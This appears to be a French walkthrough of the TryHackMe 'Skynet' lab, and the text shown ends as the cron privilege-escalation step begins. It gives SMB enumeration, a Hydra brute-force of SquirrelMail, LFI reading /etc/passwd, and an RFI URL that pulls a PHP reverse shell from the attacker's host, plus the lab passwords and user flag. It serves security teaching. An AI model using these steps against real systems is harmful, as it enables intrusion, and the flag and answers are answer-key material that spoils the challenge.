---
tags:
  - Web
  - TryHackMe
  - Facile
  - SMB
  - Hydra
  - Gobuster
  - RFI
---

# Skynet - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

|                      |                                         |
|----------------------|-----------------------------------------|
| **Plateforme**       | TryHackMe                               |
| **Type**             | Offensive / Challenge                   |
| **Difficulté**       | Facile                                  |
| **Thématiques**      | Enumération, Brute-force, Exploitation Web, Privilege Escalation |
| **Prérequis**        | Bases de Linux, SMB, brute-force web, reverse shell, élévation de privilèges |

## Contexte et objectifs

Dans cette room, vous incarnez un pentester chargé de compromettre une machine Linux inspirée de l'univers Terminator. L'objectif est de découvrir des informations sensibles, d'exploiter une faille web, puis d'obtenir les accès administrateur.

!!! info "À propos de cette room"
    Skynet est une excellente introduction à l'enchaînement classique : reconnaissance réseau, exploitation de services partagés (SMB), brute-force sur une interface web, exploitation d'une vulnérabilité Remote File Inclusion (RFI), et élévation de privilèges via une mauvaise configuration de script système.

## Méthodologie

### Étape 1 : Cartographie des services avec Nmap

Avant toute attaque, il est essentiel de connaître les services exposés par la machine cible. Un scan Nmap complet permet d'identifier les ports ouverts et les services associés.

```bash
nmap -A <IP_cible>
```

[](./screen/Skynet/WindowsTerminal_0JVjp6rGeo.png)

!!! tip "Pourquoi cette commande ?"
    L'option `-A` active la détection de version, le scan de scripts et l'identification du système d'exploitation. Cela donne une vision globale de la surface d'attaque.

Ce scan révèle plusieurs ports intéressants :
- 22 (SSH)
- 80 (HTTP)
- 110/143 (POP3/IMAP)
- 139/445 (SMB)

### Étape 2 : Enumération des partages SMB

La présence de ports 139 et 445 indique que le protocole SMB est actif. SMB permet le partage de fichiers sur le réseau, et il est fréquent de trouver des partages accessibles en lecture.

```bash
smbclient -L //<IP_cible> -N
```

[](./screen/Skynet/WindowsTerminal_uvwHpdALTb.png)

Cette commande liste les partages disponibles sans authentification (`-N`).

On découvre deux partages intéressants :
- `anonymous`
- `milesdyson`

### Étape 3 : Récupération d'informations sur le partage Anonymous

Nous allons explorer le partage `anonymous` pour y chercher des fichiers utiles.

```bash
smbclient //<IP_cible>/Anonymous
```

[](./screen/Skynet/WindowsTerminal_kRLquZErSE.png)

Après connexion, on liste le contenu du partage avec `dir` :

[](./screen/Skynet/WindowsTerminal_FhskWh2UwF.png)

On trouve `attention.txt` et un dossier `logs`. On commence par télécharger `attention.txt` :

```bash
get attention.txt
```

[](./screen/Skynet/WindowsTerminal_joH4raWNIq.png)

On explore ensuite le dossier `logs` pour voir ce qu'il contient :

```bash
cd logs
dir
```

[](./screen/Skynet/WindowsTerminal_lJgUHA3Rek.png)

Trois fichiers sont présents : `log1.txt`, `log2.txt`, `log3.txt`. Seul `log1.txt` a un contenu non vide (471 octets). On le télécharge :

```bash
get log1.txt
```

[](./screen/Skynet/WindowsTerminal_ydPExSwkFy.png)

On quitte le partage SMB et on lit les deux fichiers téléchargés :

```bash
cat log1.txt
cat attention.txt
```

[](./screen/Skynet/WindowsTerminal_id3FfoQeaq.png)

- `attention.txt` : signé Miles Dyson, mentionne un changement de mot de passe SMB.
- `log1.txt` : liste de mots de passe potentiels, dont `cyborg007haloterminator`.

### Étape 4 : Recherche de répertoires cachés sur le site web

Les fichiers récupérés sur le partage SMB ne donnent pas d'accès direct : ils fournissent un nom d'utilisateur et une liste de mots de passe potentiels, mais encore faut-il trouver où les utiliser. On se tourne donc vers le service web, exposé sur le port 80, pour chercher une interface d'authentification. En visitant `http://<IP_cible>`, on tombe sur un moteur de recherche stylisé Skynet - rien d'exploitable directement. On lance une énumération de répertoires pour découvrir des chemins cachés :

```bash
gobuster dir -u http://<IP_cible>/ -w /usr/share/wordlists/dirb/common.txt
```

[](./screen/Skynet/WindowsTerminal_dmOqlCjwAc.png)

!!! tip "Pourquoi utiliser Gobuster ?"
    Gobuster permet d'automatiser la recherche de dossiers ou fichiers cachés en testant des milliers de chemins issus d'une wordlist.

On découvre `/squirrelmail`, une interface de webmail. C'est précisément le genre de formulaire d'authentification que l'on cherchait : on va pouvoir y réutiliser les informations trouvées sur le partage SMB.

### Étape 5 : Brute-force du login SquirrelMail

Deux informations recueillies en amont guident cette étape : `attention.txt` est signé "Miles Dyson", ce qui donne le nom d'utilisateur `milesdyson`, et `log1.txt` fournit une wordlist de mots de passe potentiels. On peut maintenant tenter un brute-force sur le formulaire SquirrelMail :

[](./screen/Skynet/msrdc_7XPqMhWlY3.png)

La page affichée est `login.php`, mais ce n'est pas forcément l'endpoint à cibler avec hydra : c'est la requête réellement envoyée par le formulaire qui compte. En interceptant la tentative de connexion avec les outils de développement du navigateur (onglet Réseau), on observe que la requête POST est envoyée vers `redirect.php`, c'est donc cette URL qu'il faut utiliser dans la commande hydra.

```bash
hydra -l milesdyson -P log1.txt <IP_cible> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
```

!!! tip "Comment lire cette commande hydra ?"
    - `-l milesdyson` : le nom d'utilisateur, fixe (option minuscule = une seule valeur)
    - `-P log1.txt` : la wordlist de mots de passe à tester (option majuscule = une liste de valeurs)
    - `<IP_cible> http-post-form` : la cible et le type de formulaire à attaquer (ici un POST HTTP)
    - `"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"` : trois champs séparés par `:`
        - le chemin du formulaire
        - le corps de la requête POST, où `^USER^` et `^PASS^` sont remplacés à chaque tentative par les valeurs testées
        - la chaîne `incorrect`, présente dans la réponse uniquement en cas d'échec, ce qui permet à hydra de savoir si la tentative a réussi

[](./screen/Skynet/WindowsTerminal_36NvpkZUhz.png)

Hydra trouve le mot de passe :

- **cyborg007haloterminator**

!!! success "Réponse"
    **What is Miles password for his emails?** → `cyborg007haloterminator`

### Étape 6 : Lecture des emails pour obtenir de nouveaux accès

Connectons-nous à SquirrelMail avec les identifiants trouvés. La boîte de réception contient un email intitulé **"Samba Password reset"** :

[](./screen/Skynet/msrdc_p0XXjA3ESy.png)

L'email révèle un mot de passe SMB :

[](./screen/Skynet/TvH5DwNHJ2.png)

Mot de passe SMB trouvé dans l'email :
- **)s{A&2Z=F^n_E.B`**

### Étape 7 : Accès au partage SMB milesdyson

Nous pouvons maintenant accéder au partage `milesdyson`, repéré dès l'étape 2 mais inaccessible sans identifiants, avec le mot de passe trouvé dans l'email.

```bash
smbclient //<IP_cible>/milesdyson -U milesdyson
```

Au prompt `Password for [WORKGROUP\milesdyson]:`, on saisit `)s{A&2Z=F^n_E.B`` (le mot de passe découvert dans l'email à l'étape 6).

[](./screen/Skynet/zvdO3bo95d.png)

On repère un dossier `notes`. En l'explorant, on trouve `important.txt` :

[](./screen/Skynet/KZXJAddJVq.png)

On télécharge et lit le fichier :

[](./screen/Skynet/WindowsTerminal_6llJ2Z74vY.png)

Le fichier `important.txt` révèle un chemin caché sur le site web :
- `/45kra24zxs28v3yd`

!!! success "Réponse"
    **What is the hidden directory?** → `/45kra24zxs28v3yd`

### Étape 8 : Exploration du répertoire caché et découverte d'un CMS vulnérable

En visitant `http://<IP_cible>/45kra24zxs28v3yd`, on tombe sur une page personnelle de Miles Dyson :

[](./screen/Skynet/msrdc_Me5ru9v0Yr.png)

Un scan Gobuster sur ce répertoire révèle un sous-dossier `/administrator` :

```bash
gobuster dir -u http://<IP_cible>/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirb/common.txt
```

[](./screen/Skynet/WindowsTerminal_Aq0uUfQcCs.png)

En visitant ce sous-dossier, on tombe sur une page de connexion qui s'identifie comme **Cuppa CMS**.

### Étape 9 : Identification et exploitation d'une vulnérabilité RFI

Avant d'exploiter manuellement, on utilise `searchsploit` pour vérifier si Cuppa CMS a des vulnérabilités connues :

```bash
searchsploit cuppa
```

[](./screen/Skynet/WindowsTerminal_Bfl5dQ2Tlb.png)

Searchsploit identifie l'exploit numéro **25971** : une **Local/Remote File Inclusion** via `alertConfigField.php`. Ce numéro correspond à l'identifiant de l'entrée sur Exploit-DB, généralement noté **EDB-25971**. On peut consulter son contenu pour comprendre le format d'exploitation :

[](./screen/Skynet/WindowsTerminal_37vGr2rvPl.png)

Le PoC de l'exploit donne deux exemples d'URL exploitant le paramètre `urlConfig` de `alertConfigField.php` : l'une pointe vers un fichier hébergé sur un serveur distant (`urlConfig=http://www.shell.com/shell.txt`), exploitant la RFI, l'autre remonte l'arborescence avec des `../` pour lire un fichier local du système (`urlConfig=../../../../etc/passwd`), exploitant la LFI. C'est cette seconde forme qu'on va d'abord tester pour confirmer la faille.

!!! info "Qu'est-ce qu'une RFI et une LFI ?"
    La **Remote File Inclusion (RFI)** est une vulnérabilité qui permet à un attaquant d'inclure un fichier hébergé sur un serveur externe dans une application web vulnérable. Cela peut permettre l'exécution de code à distance.

    La **Local File Inclusion (LFI)** est une variante qui permet d'inclure un fichier déjà présent sur le serveur cible, en général via une remontée d'arborescence (`../`). Elle ne permet pas directement d'exécuter du code distant, mais sert à lire des fichiers sensibles ou à confirmer qu'une faille d'inclusion existe avant de tenter une RFI.

On vérifie d'abord la faille en tentant d'inclure `/etc/passwd` (LFI) :

```
http://<IP_cible>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

[](./screen/Skynet/msrdc_d8xhxl7B3n.png)

Le contenu de `/etc/passwd` s'affiche : la faille est confirmée.

!!! success "Réponse"
    **What is the vulnerability called when you can include a remote file for malicious purposes?** → `Remote File Inclusion`

### Étape 10 : Prise de contrôle avec un reverse shell via RFI

Pour obtenir un accès interactif, nous allons exploiter la RFI pour exécuter un reverse shell PHP. On commence par préparer le reverse shell en modifiant l'IP et le port dans `/usr/share/webshells/php/php-reverse-shell.php` :

[](./screen/Skynet/lo5xs6mObX.png)

On héberge ensuite ce fichier sur notre machine, pour que la cible puisse l'inclure à distance :

```bash
python3 -m http.server 8000
```

[](./screen/Skynet/WindowsTerminal_B8GETNeOlP.png)

On démarre ensuite un listener pour recevoir la connexion :

```bash
nc -lvnp 1234
```

Enfin, on déclenche l'inclusion distante en visitant :

```
http://<IP_cible>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<VOTRE_IP>:8000/php-reverse-shell.php
```

[](./screen/Skynet/msrdc_ylJ0vz32SJ.png)

Une connexion shell s'ouvre sur le listener :

[](./screen/Skynet/WindowsTerminal_xjSb3JRgNc.png)

### Étape 11 : Stabilisation du shell et récupération du flag utilisateur

Le shell obtenu est limité. Pour le rendre interactif :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

[](./screen/Skynet/WindowsTerminal_C6Uj81af0h.png)

On accède au dossier `/home/milesdyson` et on lit le flag :

```bash
cat /home/milesdyson/user.txt
```

[](./screen/Skynet/WindowsTerminal_3A4AdZHzEG.png)

!!! success "Réponse"
    **What is the user flag?** → `7ce5c2109a40f958099283600a9ae807`

### Étape 12 : Découverte d'une tâche cron mal sécurisée

Pour identifier des vecteurs d'escalade de privilèges, on examine les tâches planifiées du système :

```bash
cat /etc/crontab
```

